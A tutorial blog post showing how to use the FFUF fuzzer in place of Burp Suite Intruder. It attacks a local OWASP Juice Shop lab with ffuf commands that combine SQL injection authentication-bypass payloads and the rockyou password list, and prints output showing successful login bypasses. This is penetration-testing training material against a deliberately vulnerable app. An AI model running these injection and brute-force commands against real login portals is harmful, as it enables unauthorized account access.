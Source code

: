```yaml
---
title:  "Use FFUF to bypass Burp Suite's Intruder attacks delay"
date: 2023-07-25
mathjax: true
layout: post
categories: tutorial
tags: burp-suite ffuf docker webapp
---
```


#### It is possible to use FFUF like alternative to bypass Burp Suite Community Edition's Intruder attacks delay? 

## *The answer is: Yes! you can.*

* * *
 
# PoC

Burp Suite Community Edition is very good to use the Intruder and it allow us to fuzz parameters in a Request. But, we know that if we don't have Burp Suite Professional Edition, Intruder will be slow.

This article explain how you can use FFUF as alternative to bypass the rate limit of Burp Suite Community Edition and so, improve your hacking ;)

# Summary

1. ¿What is FFUF?
2. Usage and examples
3. Conclusion and Final words

* * *

# 1. *¿What is FFUF?*

## FFUF

FFUF is a fast web fuzzer tool written in Go. It's common used for Pentesters to discover subdomains, directories and test multiples parameters of a Web Application. (Example: API fuzzing). 

[![asciicast](https://asciinema.org/a/211350.svg)](https://asciinema.org/a/211350)

You can find and download FFUF from official repo in Github: [https://github.com/ffuf/ffuf](https://github.com/ffuf/ffuf){:target="_blank"}

# 2. *Usage and examples*

First at all you need a request file. It can be generated by yourself or you can copy any request directly from Burp Suite.

*For this example I will test the OWASP Juice Shop application in localhost using Docker.* 

- Download: [https://hub.docker.com/r/bkimminich/juice-shop](https://hub.docker.com/r/bkimminich/juice-shop){:target="_blank"}

![login-portal-owasp-juice-shop](https://i.ibb.co/f24pJ8W/login-portal-owasp-juice-shop.png)

![burp-suite-request](https://i.ibb.co/b6gCTWk/burp-suite-request.png)

We can just copy the text and save as `"request.txt"`.

Once captured the request, we need to set where we want to fuzz the parameters. To do that we can open the request file with nano or vim.

![nano-editing-request](https://i.ibb.co/rkQLdp0/nano-editing-request.png)

I choice set `FUZZEMAIL` and `FUZZPASSWD` to then fuzzing with **FFUF**.

## Time to hack.

Now we can use the request file to fuzzing the parameters, so let's take a review of usage modes:

## Modes

```bash
-mode
Multi-wordlist operation mode. (default: clusterbomb) 
	-sniper
	-pitchfork
	-clusterbomb
```

## Example

```bash
ffuf -request request.txt --request-proto https -mode clusterbomb -w passwords.txt:FUZZPASSWD -w email-list.txt:FUZZEMAIL
```

With that command we are fuzzing the request testing each email and password with the payloads to bypass the log in portal.

We gonna try perform a SQL Injection, so we need to encode payloads as URL.

I will use CyberChef to encode and a list of payloads from PayloadsAllTheThings.

- CyberChef online: [https://gchq.github.io/CyberChef/](https://gchq.github.io/CyberChef/){:target="_blank"}

- PayloadsAllTheThings: [https://swisskyrepo.github.io/PayloadsAllTheThingsWeb/](https://swisskyrepo.github.io/PayloadsAllTheThingsWeb/){:target="_blank"}

*On Kali Linux you can install the both with:*

```bash
sudo apt install -y cyberchef payloadsallthethings
```

- List of payloads for SQL Injection: [https://swisskyrepo.github.io/PayloadsAllTheThingsWeb/SQL%20Injection/#authentication-bypass](https://swisskyrepo.github.io/PayloadsAllTheThingsWeb/SQL%20Injection/#authentication-bypass){:target="_blank"}

So copy and encode with CyberChef.

![cyberchef-encoding](https://i.ibb.co/ZKr71Qs/cyberchef-encoding.png)

It is necessary add the recipe "Split" to separate each payload. In the field "Split delimiter" you need to set "%0A". *(See the image above).*

## Fuzzing

- FUZZEMAIL will be all the SQL Injection Payloads.
- FUZZPASSWD will be the classic "rockyou.txt" wordlist.

```bash
> ffuf -request request.txt --request-proto http -mode pitchfork -w /usr/share/wordlists/rockyou.txt:FUZZPASSWD -w /home/hackermater/Labs/Juice\ Shop/email-list.txt:FUZZEMAIL -mc 200
         ____    ____             ____
        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.0.0-dev
________________________________________________

 :: Method           : POST
 :: URL              : http://127.0.0.1:3000/rest/user/login
 :: Wordlist         : FUZZPASSWD: /usr/share/wordlists/rockyou.txt
 :: Wordlist         : FUZZEMAIL: /home/hackermater/Labs/Juice Shop/email-list.txt
 :: Header           : Accept-Language: en-US,en;q=0.5
 :: Header           : DNT: 1
 :: Header           : Cookie: language=en; welcomebanner_status=dismiss
 :: Header           : Sec-Fetch-Dest: empty
 :: Header           : Sec-Fetch-Site: same-origin
 :: Header           : User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
 :: Header           : Accept-Encoding: gzip, deflate
 :: Header           : Referer: http://127.0.0.1:3000/
 :: Header           : Sec-Fetch-Mode: cors
 :: Header           : Host: 127.0.0.1:3000
 :: Header           : Accept: application/json, text/plain, */*
 :: Header           : Content-Type: application/json
 :: Header           : Origin: http://127.0.0.1:3000
 :: Header           : Connection: close
 :: Data             : {"email":"admin@juice-sh.opFUZZEMAIL","password":"FUZZPASSWD"}
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200
________________________________________________

[Status: 200, Size: 799, Words: 1, Lines: 1, Duration: 1582ms]
    * FUZZEMAIL: '--'
    * FUZZPASSWD: qwerty

[Status: 200, Size: 799, Words: 1, Lines: 1, Duration: 2064ms]
    * FUZZEMAIL: '--'%20/%20%22--%22
    * FUZZPASSWD: iloveu

[Status: 200, Size: 799, Words: 1, Lines: 1, Duration: 1842ms]
    * FUZZEMAIL: '--'
    * FUZZPASSWD: adrian

[Status: 200, Size: 799, Words: 1, Lines: 1, Duration: 1827ms]
    * FUZZEMAIL: '--'%20/%20%22--%22
    * FUZZPASSWD: destiny

[WARN] Caught keyboard interrupt (Ctrl-C)
```

*We can check the login bypass on the web:*

![pwned-login-portal](https://i.ibb.co/YyJFJDp/pwned-login-portal.png)

# Conclusion and Final words ;)

This is a simple and powerful way to use an "Intruder" or Fuzzer with FFUF instead the Burp Suite's Intruder from Community Edition with multiples parameters and with whatever encoding you want.

*And finally, here is a useful tip:*

## *Rate limit*

Many times, when you are performing a pentest audit it's required a rate limit for seconds between requests.

```bash
-rate               
Rate of requests per second (default: 0)
```

#### *Example*

```bash
ffuf -request request.txt --request-proto https -mode pitchfork -w passwords.txt:FUZZPASSWD -w usernames.txt:FUZZUSERS -rate 5 

# It will perform 5 requests per seconds
```

Happy Hacking!!

----

## Author: Mateo Fumis 
